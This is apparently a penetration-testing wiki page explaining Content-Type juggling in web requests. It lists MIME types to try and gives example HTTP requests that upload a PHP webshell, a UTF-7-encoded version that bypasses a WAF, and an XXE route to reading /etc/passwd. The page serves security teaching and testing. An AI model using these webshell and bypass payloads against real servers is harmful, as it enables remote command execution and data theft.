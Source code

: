 ```yaml
---
authors: ShutdownRepo
category: web
---
```


# Content-Type juggling

## Theory

Content-Type juggling exploits the lack of checking on the `Content-Type` header when submitting an HTTP request.

Most of the time, Content-Type juggling is a way to carry out other attacks such as [unrestricted-file-upload](../file-inclusion/lfi-to-rce/file-upload) or [xxe-injection](#example-of-a-content-type-juggling-attack-on-api-leading-to-xxe) (see [examples](#examples)).

> [!TIP]
> The `Content-Type` header is used to indicate the MIME type of the resource.
> 
> * In requests, (such as `POST` or `PUT`), the client tells the server what type of data was actually sent.
> * In responses, a `Content-Type` header tells the client what type of content is actually being returned. Browsers may try to detect the MIME type of content by inspecting it rather than by respecting the value of this header.

> [!WARNING]
> If the [XCTO (X-Content-Type-Options)](../../config/http-headers/index#xcto-x-content-type-options) security header is present, it will be difficult to perform the `Content-Type` juggling, as indicated in [mime-sniffing](../../config/http-headers/mime-sniffing). The XCTO security header can be used to indicate that the MIME types advertised in the `Content-Type` headers should be followed and not be changed by the browser depending on the page's content. Websites that implement this security header with the `nosniff` directive must also include a valid `Content-Type` header in their responses.

## Practice

### Identify a target vulnerable to Content-Type juggling

In order to identify if the target is vulnerable to `Content-Type` juggling, testers need to answer the following questions :

* Is there a post request with value(s) and `Content-Type` header ?
* Is the `X-Content-Type-Options` security header not present ?
* Can the `Content-Type` header be edited, and the `POST` request still be submitted successfully ?

If the answer is yes to the questions above, then one should be able to perform `Content-Type` juggling and might find a way to perform other attacks as a result:

* If one can switch to `application/xml`, [XXE](../xxe-injection/index) should be tried.
* If one can switch to `application/zip`, uploading malicious zip file should be tried.
* If one can switch to `application/php`, uploading PHP payloads should be tried.
* If one can switch to `application/image`, uploading [malicious image](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html) should be tried.

One should not stick to this list and always try several Content-Type values.

::: details List of the most common Content-Type values

Type application
```
application/java-archive
application/EDI-X12
application/EDIFACT
application/javascript
application/octet-stream
application/ogg
application/pdf
application/xhtml+xml
application/x-shockwave-flash
application/json
application/ld+json
application/xml
application/zip
application/x-www-form-urlencoded
```

Type audio
```
audio/mpeg
audio/x-ms-wma
audio/vnd.rn-realaudio
audio/x-wav
```
Type image
```
image/gif
image/jpeg
image/png
image/tiff
image/vnd.microsoft.icon
image/x-icon
image/vnd.djvu
image/svg+xml
```

Type multipart
```
multipart/mixed
multipart/alternative
multipart/related (using by MHTML (HTML mail).)
multipart/form-data
```

Type text
```
text/css
text/csv
text/html
text/javascript (obsolete)
text/plain
text/xml
```

Type video
```
video/mpeg
video/mp4
video/quicktime
video/x-ms-wmv
video/x-msvideo
video/x-flv
video/webm
```

Type vnd
```
application/vnd.android.package-archive
application/vnd.oasis.opendocument.text
application/vnd.oasis.opendocument.spreadsheet
application/vnd.oasis.opendocument.presentation
application/vnd.oasis.opendocument.graphics
application/vnd.ms-excel
application/vnd.openxmlformats-officedocument.spreadsheetml.sheet
application/vnd.ms-powerpoint
application/vnd.openxmlformats-officedocument.presentationml.presentation
application/msword
application/vnd.openxmlformats-officedocument.wordprocessingml.document
application/vnd.mozilla.xul+xml
```

:::


### Example attacks

::: details PHP payload upload and RCE
Let's take this POST request following the submit of a form. Two `Content-Type` headers can be seen, the second one is interesting since an attacker could be juggling the content-type to upload a malicious PHP file.

```HTTP
POST /foo HTTP/1.1
[....request...]
-----------------------------974767299852498929531610575
Content-Disposition: form-data; name="myFile"; filename="foo.txt"
Content-Type: text/plain

(content of the uploaded file foo.txt)
-----------------------------974767299852498929531610575--
```

The attacker is able to upload a PHP webshell thanks to the Content-Type juggling, changing it from `text/plain` to `application/php`

```HTTP
POST /foo HTTP/1.1
[....request...]
-----------------------------974767299852498929531610575
Content-Disposition: form-data; name="myFile"; filename="foo.php"
Content-Type: application/php

 <?php system($_GET["cmd"]); ?>
-----------------------------974767299852498929531610575--
```
:::


::: details Bypass a WAF
Sometimes, the `Content-Type` header has an additional field: `charset=<value>`.

```
Content-Type: text/html; charset=utf-8
```

In this context, an attacker can try to edit the charset (e.g. from `utf-8` to `utf-7`) to bypass security controls such as Web Application Firewalls (WAFs), or regular expressions that check the value of a form. This technique cannot bypass the impact of the XCTO security header though (see the [Theory](#theory) part).

Below is an example where an attacker is able to perform Content-Type juggling but is getting blocked by a WAF. To bypass it, "charset juggling" can be performed.


```HTTP
POST /foo HTTP/1.1
Content-Type: application/php; charset=utf-8
Content-Length: 19

<?php system($_GET["cmd"]); ?>
```



```HTTP
POST /foo HTTP/1.1
Content-Type: application/php; charset=utf-7
Content-Length: 19

+ADw-?php system(+ACQAXw-GET+AFsAIg-cmd+ACIAXQ-)+ADs- ?+AD4-
```

:::


::: details API attack, leading to XXE
In the following request, the application normally sends JSON content (`Content-Type: application/json`).

If the target is vulnerable to Content-Type juggling and XXE, an attacker could attempt to modify the content-type header to `application/xml` and put some malicious XML to exploit an XXE.

![Performing Content-Type juggling](assets/CT-JUGGLING-3.png)

By combining Content-Type juggling with another attack, it's possible to extract information from the target (more about it in [XXE injection](../xxe-injection/index)).

![Crafting a XXE payload to extract /etc/passwd](assets/CT-JUGGLING-4.png)

For more insight on this attack, refer to [the writeup of the web challenge "BNV" from Google CTF 2019](https://medium.com/hmif-itb/googlectf-2019-web-bnv-writeup-nicholas-rianto-putra-medium-b8e2d86d78b2), by [Nicholaz99](https://github.com/Nicholaz99).
:::


## Resources

[https://medium.com/hmif-itb/googlectf-2019-web-bnv-writeup-nicholas-rianto-putra-medium-b8e2d86d78b2](https://medium.com/hmif-itb/googlectf-2019-web-bnv-writeup-nicholas-rianto-putra-medium-b8e2d86d78b2)

[https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#content-type-from-json-to-xee](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#content-type-from-json-to-xee)
Content-Type from JSON to XEE

[https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#waf-and-protections-bypasses](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#waf-and-protections-bypasses)
WAF and protections bypasses

[https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Type](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Type)